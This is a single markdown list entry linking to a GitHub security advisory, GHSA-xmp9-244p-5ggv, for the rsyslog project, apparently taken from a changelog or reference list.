- [GHSA-xmp9-244p-5ggv](https://github.com/rsyslog/rsyslog/security/advisories/GHSA-xmp9-244p-5ggv)
